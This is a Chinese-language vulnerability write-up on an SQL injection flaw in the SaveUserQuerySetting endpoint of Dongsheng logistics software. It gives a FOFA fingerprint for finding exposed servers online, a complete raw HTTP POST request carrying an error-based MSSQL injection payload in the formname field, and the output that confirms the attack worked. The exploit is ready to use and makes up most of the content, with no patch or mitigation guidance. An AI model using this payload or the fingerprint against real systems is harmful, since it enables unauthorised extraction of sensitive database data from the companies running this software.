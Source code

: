 # 东胜物流软件SaveUserQuerySetting存在SQL注入漏洞

# 一、漏洞简介
东胜物流软件是一款致力于为客户提供IT支撑的 SOP， 帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。东胜物流软件 SaveUserQuerySetting接口处存在 SQL 注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 东胜物流软件

# 三、资产测绘
+ fofa`fid="Z4c2hPCi5IR/AnH5vZXNSQ=="`
+ 特征

![1708936256348-8d7bf6c6-a3aa-4202-9f9c-a325885eef04.png](./img/Z-zu1u1tj1z1oq2D/1708936256348-8d7bf6c6-a3aa-4202-9f9c-a325885eef04-730451.png)

# 四、漏洞复现
```plain
POST /MvcShipping/MsBaseInfo/SaveUserQuerySetting HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1468.0 Safari/537.36
Content-Length: 857
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

formname=MsRptSaleBalProfitShareIndex'+AND+2523+IN+(SELECT+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2b(SELECT+SUBSTRING((ISNULL(CAST((+sys.fn_VarBinToHexStr(hashbytes('MD5','hello')))+AS+NVARCHAR(4000)),CHAR(32))),1,1024))%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)))+AND+'uKco'%3d'uKco&isvisible=true&issavevalue=true&querydetail=%7B%22PS_MBLNO%22%3A%22%22%2C%22PS_VESSEL%22%3A%22%22%2C%22PS_VOYNO%22%3A%22%22%2C%22PS_SALE%22%3A%22%5Cu91d1%5Cu78ca%22%2C%22PS_OP%22%3Anull%2C%22PS_EXPDATEBGN%22%3A%222020-02-01%22%2C%22PS_EXPDATEEND%22%3A%222020-02-29%22%2C%22PS_STLDATEBGN%22%3A%22%22%2C%22PS_STLDATEEND%22%3A%22%22%2C%22PS_ACCDATEBGN%22%3A%22%22%2C%22PS_ACCDATEEND%22%3A%22%22%2C%22checkboxfield-1188-inputEl%22%3A%22on%22%2C%22PS_CUSTSERVICE%22%3Anull%2C%22PS_DOC%22%3Anull%2C%22hiddenfield-1206-inputEl%22%3A%22%22%7D}
```

![1708936597114-d9d3ffd6-39ff-46a5-8c1a-089a70b86853.png](./img/Z-zu1u1tj1z1oq2D/1708936597114-d9d3ffd6-39ff-46a5-8c1a-089a70b86853-946114.png)

```plain
qxpqq0x5d41402abc4b2a76b9719d911017c592qzkqq
```

![1708946240065-a4df07ad-6ae3-4004-97f5-d08bac4a7286.png](./img/Z-zu1u1tj1z1oq2D/1708946240065-a4df07ad-6ae3-4004-97f5-d08bac4a7286-976094.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kmeubkhryrzmp90u>